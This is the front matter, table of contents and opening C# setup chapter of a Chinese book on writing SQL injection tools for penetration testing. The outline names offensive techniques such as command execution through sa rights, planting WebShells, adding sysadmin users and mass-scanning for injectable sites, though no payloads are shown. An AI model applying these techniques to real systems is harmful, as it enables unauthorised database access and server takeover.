# 精通 C# 黑客注入编程

非安全 出品

## 作者简介

赵振海（pois0n），毕业于 NUAA。Certified Information Security Professional（CISP）、Cisco Certified Network Professional（CCNP）。目前就职于某安全咨询服务公司从事信息安全风险评估及安全管理体系架构设计。专业从事渗透测试三年，对 Metasploit 有着很深入的研究。

| 项目 | 内容 |
|---|---|
| 出品人 | 非安全 |
| 作者 | pois0n |
| 图片支持 | 张宇 |
| 策划编辑 | LoveAngel |
| 特约编辑 | Python、LCX、Vxer、眼镜猴、冰的原点、妮良、浪迹天涯、10086、风飘雨、小迷、XApache、[zero]、张宇、青蛙王子、小龙猪、眼镜猴、猪哥靓 |
| 美术设计 | 刘旭 |
| 平面策划 | 小聂 |
| 网站管理 | www.nohack.me |
| 广告代理 | Cass |
| 印刷发行 | 段东霞 |
| 邮购热线 | 010-86921991 |
| 联系QQ | 速递小子 924073360（QQ） |
| 版权声明 | 图文版权所有，未经同意，不得转载。作者投稿文章，文责自负。 |
| 投稿信箱 | nohack@21cn.com；hope_wym@sina.com；CD@nohack.me |
| 官方站点 | book.nohack.me；taobao.nohack.me |

## 前言

SQL 注入是 Internet 上最危险、最有名的安全漏洞之一。很长时间以来都被 OWASP TOP TEN 列为十大 Web 漏洞之首。由于自动化的攻击工具以及网络中存在的僵尸计算机进行注入攻击，使得 SQL 注入仍然呈现一种增长的趋势。

目前关于 SQL 注入的介绍资料比较零散，缺少全面系统地介绍各种应用下 SQL 注入的资料。BlackHat 2009 上一篇《Advanced MySQL Exploitation》的 paper 引起了强烈的反响，很多人对这些几年前就被国内的安全人员研究透的东西被拿到 BlackHat 上演讲很吃惊，但我们确实没有把这些科普性质的知识归纳总结，我们或许需要的就是这样一种精神。

本书专门致力于讲解 SQL 注入攻击。通过分析 SQL 注入攻击的利用要素并结合长期渗透测试经验的典型案例，重点讲解 SQL 注入的攻击方法，总结了常见几种数据库的攻击手段。另外，本书还专门从代码角度介绍了如何编写 SQL 注入工具的问题。一直以来想和朋友们分享一些以往渗透测试过程中的 SQL 注入威胁心得。在本书的写作过程中尤其注重讲解动手实践的过程，将每一种可能的 SQL 注入攻击方式以图文并茂的形式展现给读者。

## 写作思路

- 以通俗易懂的风格详细介绍了各种情况下的 SQL 注入攻击技术。
- 结合长期渗透测试经验的典型案例，以实践为主向读者展示了常见几种数据库的攻击手段。
- 在讲解 SQL 注入攻击的同时，还从代码的角度介绍了如何编写 SQL 注入工具，打造自己的注入工具。
- 适合所有关注 Web 安全的读者，尤其是从事渗透测试的测试人员，另外也为安全工具开发人员提供了一定的参考价值。

## 致谢

感谢《非安全》提供这样一个可以和读者分享心得的机会。

感谢我的父母以及那些曾经爱过我和正在爱着我的人。

由于编者水平有限，书中难免有疏漏和错误之处，恳请广大读者给予批评指正。

## 第一章 C# 入门基础知识

- 1 C# 与 .NET Framework 2.0 简介 …… 2
  - 1.1 .NET Framework …… 2
  - 1.2 C# 简介 …… 2
- 2 Visual Studio 2005 …… 2
  - 2.1 Visual Studio 2005 安装 …… 2
  - 2.2 认识 Visual Studio 2005 开发环境 …… 3
  - 2.3 第一个 Windows Console 应用程序 …… 4
  - 2.4 第一个 Windows Form 应用程序 …… 5
- 3 C# 程序设计基础 …… 6
  - 3.1 C# 程序的组成要素 …… 6
    - 3.1.1 关键字 …… 6
    - 3.1.2 命名空间 …… 7
    - 3.1.3 语句 …… 7
    - 3.1.4 大括号 …… 7
    - 3.1.5 注释 …… 7
  - 3.2 C# 基本数据类型 …… 8
    - 3.2.1 值类型 …… 8
    - 3.2.2 引用类型 …… 11
  - 3.3 变量和常量 …… 19
    - 3.3.1 常量 …… 19
    - 3.3.2 变量 …… 20
  - 3.4 运算符 …… 20
    - 3.4.1 算术运算符 …… 20
    - 3.4.2 字符串运算符 …… 21
    - 3.4.3 赋值运算符 …… 21
    - 3.4.4 逻辑运算符 …… 21
    - 3.4.5 其他运算符 …… 22
    - 3.4.6 运算符的优先级 …… 22
  - 3.5 流程控制 …… 23
    - 3.5.1 使用 if 语句实现分支 …… 23
    - 3.5.2 使用 switch 语句实现分支 …… 24
    - 3.5.3 使用 while 语句实现循环 …… 25
    - 3.5.4 使用 for 语句实现循环 …… 26
    - 3.5.5 使用 break/continue 控制循环 …… 26
- 4 Windows 编程基础 …… 27
  - 4.1 常用控件 …… 27
    - 4.1.1 button 控件 …… 28
    - 4.1.2 TextBox 控件 …… 29
    - 4.1.3 Label 控件 …… 30
    - 4.1.4 GroupBox 控件 …… 30
    - 4.1.5 RadioButton 和 CheckBox 控件 …… 30
    - 4.1.6 RichTextBox 控件 …… 31
    - 4.1.7 ListView 控件 …… 32
    - 4.1.8 TabStrip 控件 …… 34
  - 4.2 菜单栏和工具栏 …… 34

## 第二章 HTTP 编程基础知识

- 1 HTTP 协议基础知识 …… 37
  - 1.1 HTTP 协议的工作原理 …… 37
  - 1.2 HTTP 消息 …… 37
    - 1.2.1 通用头域 …… 38
    - 1.2.2 HTTP 请求消息格式 …… 38
    - 1.2.3 HTTP 响应消息格式 …… 39
- 2 观察 HTTP 协议的通信过程 …… 40
  - 2.1 telnet 设置 …… 40
  - 2.2 发送请求得到回显 …… 40
- 3 C# HTTP 编程相关类简介 …… 41
  - 3.1 WebClient 类 …… 41
  - 3.2 WebRequest 类和 WebResponse 类 …… 44
  - 3.3 HttpWebRequest 类和 HttpWebResponse 类 …… 46

## 第三章 SQL 基础知识

- 1 SQL 语言基础 …… 54
  - 1.1 什么是 SQL …… 54
  - 1.2 SQL 语言的组成 …… 54
  - 1.3 SQL 语句的结构 …… 55
- 2 Microsoft SQL Server 2000 …… 55
  - 2.1 安装 SQL Server 2000 …… 56
  - 2.2 SQL Server 查询分析器 …… 57
- 3 结构化查询语言 …… 58
  - 3.1 表的基础知识 …… 58
  - 3.2 创建、删除和修改表 …… 58
    - 3.2.1 表的创建 …… 58
    - 3.2.2 表的修改 …… 60
    - 3.2.3 表的删除 …… 60
    - 3.2.4 创建、删除数据库 …… 61
  - 3.3 简单地查询 …… 61
    - 3.3.1 查询语句的基本结构 …… 61
    - 3.3.2 列的查询 …… 62
    - 3.3.3 排序查询结果 …… 63
    - 3.3.4 使用 WHERE 关键字定义查询条件 …… 64
    - 3.3.5 使用 BETWEEN 关键字筛选范围 …… 65
  - 3.4 复杂搜索条件的查询 …… 65
    - 3.4.1 组合查询条件 …… 65
    - 3.4.2 IN 运算符 …… 67
    - 3.4.3 NOT 运算符 …… 67
    - 3.4.4 LIKE 运算符 …… 67
  - 3.5 聚合函数和分组查询 …… 68
    - 3.5.1 聚合函数 …… 68
    - 3.5.2 分组查询 …… 69
    - 3.5.3 SELECT 查询小结 …… 70
  - 3.6 UNION 查询 …… 70
  - 3.7 子查询 …… 71
  - 3.8 数据的插入 …… 72
  - 3.9 数据的修改 …… 73
  - 3.10 数据的删除 …… 74

## 第四章 SQL 注入基础

- 1 SQL 注入漏洞原理 …… 76
  - 1.1 什么是 SQL 注入漏洞 …… 76
  - 1.2 SQL 注入漏洞原理 …… 76
- 2 检测注入漏洞 …… 77
  - 2.1 数据库错误 …… 77
  - 2.2 Web 应用程序响应 …… 78
  - 2.3 漏洞检测代码实现 …… 80
    - 2.3.1 利用 HTTP 状态码和网页内容长度检测 …… 80
    - 2.3.2 利用关键字检测 …… 84
- 3 判断数据库类型 …… 87
  - 3.1 数据库类型判断方法 …… 87
    - 3.1.1 判断 ACCESS 数据库 …… 87
    - 3.1.2 判断 MSSQL SERVER 数据库 …… 88
    - 3.1.3 判断 MYSQL 数据库 …… 88
    - 3.1.4 判断 ORACLE 数据库 …… 88
  - 3.2 数据库判断代码实现 …… 89
    - 3.2.1 利用 HTTP 状态码和网页内容长度检测 …… 89
    - 3.2.2 利用关键字检测 …… 91
- 4 异步调用 …… 93
- 5 综合检测工具 …… 94

## 第五章 编写 Access 注入工具

- 1 Access 注入的基本流程 …… 97
- 2 Access 注入功能分析 …… 97
  - 2.1 猜解数据库表名 …… 97
  - 2.2 猜解表中的列名 …… 98
  - 2.3 猜解记录条数 …… 98
  - 2.4 折半查找法 …… 99
  - 2.5 猜解字段长度 …… 100
  - 2.6 猜解字段内容 …… 101
- 3 Access 注入工具代码实现 …… 102
  - 3.1 猜解数据库表名 …… 102
  - 3.2 猜解列名 …… 105
  - 3.3 猜解记录条数 …… 107
  - 3.4 猜解记录内容 …… 107
  - 3.5 扫描管理后台 …… 113
- 4 Access 注入高级利用 …… 114
  - 4.1 中文处理方法 …… 114
  - 4.2 union 联合查询 …… 115
  - 4.3 偏移注入 …… 116
  - 4.4 Access 跨库查询 …… 119

## 第六章 编写 MSSQL2000 注入工具

- 1 MSSQL2000 注入的基本流程 …… 122
- 2 MSSQL2000 注入功能分析 …… 122
  - 2.1 识别 MSSQL Server 的版本 …… 122
  - 2.2 错误提示 …… 123
  - 2.3 错误提示开启下的注入攻击 …… 124
    - 2.3.1 获取数据库基本信息 …… 124
    - 2.3.2 判断当前连接数据库用户的权限 …… 125
    - 2.3.3 sa 权限注入 …… 126
    - 2.3.4 sa 权限执行系统命令 …… 127
    - 2.3.5 sp_makewebtask 写文件 …… 133
    - 2.3.6 添加 sysadmin 权限用户 …… 134
    - 2.3.7 db_owner 权限注入 …… 135
    - 2.3.8 public 权限注入 …… 140
  - 2.4 union 联合查询注入攻击 …… 146
    - 2.4.1 匹配 union 查询字段数 …… 146
    - 2.4.2 union 获取基本信息 …… 148
    - 2.4.3 union 查询得到执行命令回显 …… 149
- 3 MSSQL2000 注入工具代码实现 …… 150
  - 3.1 判断 MSSQL 数据库版本 …… 150
  - 3.2 MSSQL2000 注入工具_错误提示版 …… 153
    - 3.2.1 获取基本信息 …… 153
    - 3.2.2 获取数据 …… 157
    - 3.2.3 执行命令 …… 158
    - 3.2.4 列目录 …… 161
    - 3.2.5 获取 WebShell …… 162
  - 3.3 MSSQL2000 注入工具_union 版 …… 164
    - 3.3.1 获取基本信息 …… 165
    - 3.3.2 执行命令 …… 167
- 4 MSSQL2000 高级注入技巧 …… 169
  - 4.1 404 页面获取返回结果 …… 169
  - 4.2 openrowset 返回查询结果 …… 170
  - 4.3 快速查找指定目录 …… 171

## 第七章 编写 MSSQL2005 注入工具

- 1 MSSQL2005 注入的基本流程 …… 175
- 2 MSSQL2005 注入功能分析 …… 175
  - 2.1 错误提示开启下的注入攻击 …… 175
    - 2.1.1 获取数据库基本信息 …… 175
    - 2.1.2 判断当前连接数据库用户的权限 …… 177
    - 2.1.3 sa 权限注入 …… 178
    - 2.1.4 sa 权限执行系统命令 …… 178
    - 2.1.5 sp_makewebtask 写文件 …… 185
    - 2.1.6 backup_log 获得 WebShell …… 185
    - 2.1.7 public 权限注入 …… 185
  - 2.2 union 联合查询注入攻击 …… 190
    - 2.2.1 union 获取基本信息 …… 190
    - 2.2.2 union 查询得到执行命令回显 …… 191
- 3 MSSQL2005 注入工具代码实现 …… 192
  - 3.1 MSSQL2005 注入工具_错误提示版 …… 192
    - 3.1.1 获取基本信息 …… 192
    - 3.1.2 获取数据 …… 196
    - 3.1.3 执行命令 …… 200
    - 3.1.4 获取 WebShell …… 202
  - 3.2 MSSQL2005 注入工具_union 版 …… 202
    - 3.2.1 获取基本信息 …… 204
    - 3.2.2 执行命令 …… 205

## 第八章 编写 MYSQL 注入工具

- 1 MYSQL 注入的基本流程 …… 209
- 2 MYSQL 注入基础 …… 209
  - 2.1 检测 MYSQL 注入 …… 209
  - 2.2 识别 MYSQL 的版本 …… 210
- 3 MYSQL 注入功能分析 …… 211
  - 3.1 MYSQL 4.x 注入 …… 211
    - 3.1.1 获取数据库基本信息 …… 211
    - 3.1.2 load_file() 读取系统文件 …… 212
    - 3.1.3 SELECT INTO OUTFILE 写文件 …… 213
    - 3.1.4 猜解数据 …… 213
  - 3.2 MYSQL 5.x 注入 …… 215
    - 3.2.1 information_schema 数据字典 …… 215
    - 3.2.2 猜解可用数据库 …… 216
    - 3.2.3 猜解数据表 …… 217
    - 3.2.4 猜解列名 …… 218
    - 3.2.5 猜解记录内容 …… 218
    - 3.2.6 group_concat() 函数 …… 219
  - 3.3 MYSQL 3.x 注入 …… 220
- 4 MYSQL 注入工具代码实现 …… 222
  - 4.1 MYSQL 4.x 注入工具 …… 222
    - 4.1.1 判断数据库版本 …… 222
    - 4.1.2 获取基本信息 …… 224

- 4.1.3 猜解数据 …… 226  
- 4.1.4 load_file() 读取系统文件 …… 230  
- 4.1.5 SELECT INTO OUTFILE 写文件 …… 232  
- 4.2 MYSQL5.x 注入工具 …… 233  
  - 4.2.1 猜解所有可用数据库 …… 233  
  - 4.2.2 猜解数据表 …… 235  
  - 4.2.3 猜解列名 …… 236  
  - 4.2.4 猜解内容 …… 238  
- 4.3 MYSQL3.x 注入工具 …… 239  

## 第九章 编写注入工具进阶

- 1 Cookie 注入基础 …… 245  
  - 1.1 Cookie 注入原理 …… 245  
  - 1.2 Cookie 注入检测 …… 245  
- 2 Cookie 注入代码实现 …… 247  
  - 2.1 构造 Cookie …… 247  
  - 2.2 猜解表名 …… 248  
  - 2.3 猜解列名 …… 249  
  - 2.4 猜解记录 …… 251  
- 3 批量扫描注入点 …… 254  
  - 3.1 批量搜索注入点 …… 254  
  - 3.2 批量扫描注入点代码实现 …… 256  
    - 3.2.1 实现浏览器功能 …… 256  
    - 3.2.2 查找页面所有链接 …… 256  
    - 3.2.3 检测注入漏洞 …… 257  

## 第十章 经典入侵实例

- 1 ACCESS 注入实例 …… 261  
- 2 MSSQL 注入实例 …… 263  
  - 2.1 MSSQL2000 SA 权限注入 …… 263  
  - 2.2 MSSQL2000 DB_OWNER 权限注入 …… 264  
  - 2.3 MSSQL2005 SA 权限注入 …… 266  
- 3 MYSQL 注入实例 …… 267  
  - 3.1 MYSQL 读写系统文件实例 …… 267  
  - 3.2 MYSQL information_schema 遍历数据库实例 …… 272  
- 4 COOKIE 注入实例 …… 274  
- 后记 …… 276  



本书相关代码

VS2005 视频教程【106 集大容量教程】




## C# 入门基础知识

## 第一章 C# 入门基础知识

### 1 C# 与 .NET Framework 2.0 简介

#### 1.1 .NET Framework

.NET Framework 是 Microsoft 为开发应用程序而创建的一个富有革命性的新平台，是 Microsoft 推出的一套类库，被称为 .NET 框架。.NET Framework 提供一些类库供各种应用程序调用，而应用程序使用的语言可以是 C#，也可以是 VB。本书使用 C# 语言。.NET Framework 可以创建 Windows 应用程序、Web 应用程序、Web 服务和其他各种类型的应用程序。

#### 1.2 C# 简介

在 C# 语言出现之前，微软旗下的 Visual C++、Visual Basic 等都无法开发基于 Web 的应用程序或服务。为了解决这个难题，微软决定开发一门新的语言，C# 应运而生。C# 被称为是 C++ 语言与 VB 语言的完美结合，它既具备 C++ 语言的强大功能，又具备 VB 语言的快速开发特性。它由 C 和 C++ 语言演化而来，是 Microsoft 专门为使用 .NET 平台而创建的，继承了其他语言的许多优点，并解决了它们的问题。使用 C# 开发应用程序比使用 C++ 简单，因为其语法比较简单。同时，C# 是一种强大的语言，在 C++ 中能完成的任务利用 C# 也能完成。与其他开发语言相比，C# 具备如下优势：

- C# 语法与 C、C++ 类似，学习过简单 C 语法的初学者，可以轻松入门。  
- C# 支持面向对象开发，并有 .NET 底层类库的支持，可以轻松创建对象。  
- 拥有 .NET 底层框架的支持，可以调用类库，轻松完成常见模块的制作，如登录模块。  
- 像 VB 语言一样支持快速应用程序开发，而且它能开发出比 VB 更加健壮的代码。  
- 不仅支持 Windows 桌面应用程序的开发，还支持网站等 Web 应用程序的开发。  

### 2 Visual Studio 2005

Visual Studio 是微软公司推出的集成开发环境，是目前最流行的 Windows 平台应用程序开发环境，可以用来创建 Windows 平台下的 Windows 应用程序和 Web 应用程序。

#### 2.1 Visual Studio 2005 安装

我们首先介绍 Visual Studio 2005 的安装过程。找到 Visual Studio 2005 安装文件，双击“setup.exe”进行安装，屏幕上将会弹出如图 1 所示的对话框。单击“安装 Visual Studio 2005”链接，进入下一步安装。此处可以选择是否参加微软的帮助改进安装活动，读者可以根据自己的意愿选择是否参加，如图 2 所示。单击“下一步”按钮，进入最终用户许可协议，读者需要同意其所有条款才能继续下一步安装。



图 1 安装选择界面



图 2 进入安装向导

界面的右下方分别是产品密钥相应的信息，如图 3 所示。单击“下一步”按钮，出现如图 4 所示提示框。此处出现的窗体右侧中部可以修改产品安装路径，读者可以根据右下方磁盘空间的提示选择合适的安装位置。对于 Visual Studio 功能比较熟悉的读者，可以在窗体左侧选择自定义安装，自行取舍程序功能。对于广大的初学者来说，选取默认值安装是比较合适的选择。单击“安装”按钮，安装程序将进入一个漫长的安装过程，如图 5 所示。安装完毕后可以选择继续 MSDN 的安装。



图 3 最终用户许可协议

#### 2.2 认识 Visual Studio 2005 开发环境

打开 VS2005，初次运行效果如图 6 所示，主要包括：菜单栏、解决方案资源管理器、起始页、工具栏等。“解决方案资源管理器”子窗口显示 Visual Studio .NET 当前程序的树形结构。



图 4 进入选项页

# 精通 C# 黑客注入编程



图 6 VS2005 起始页

